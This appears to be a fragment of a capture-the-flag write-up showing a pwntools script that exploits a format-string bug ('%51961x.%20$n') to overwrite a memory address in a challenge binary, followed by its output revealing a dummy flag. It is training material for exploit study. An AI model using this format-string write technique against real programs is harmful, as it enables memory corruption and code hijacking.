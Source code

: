 <pre>
from pwn import *
payload = p32(0x0804c040); #Overwrite_Me
payload += "%51961x.%20$n"
print payload
</pre>


<pre>
$ python exploit.py | ./chall
Please enter your name : Welcome Mr.
-snip-
                    ff867be0.
You deserve this.
Here, take you flag <b>inctf{this_is_a_dummy_flag}</b>
</pre>
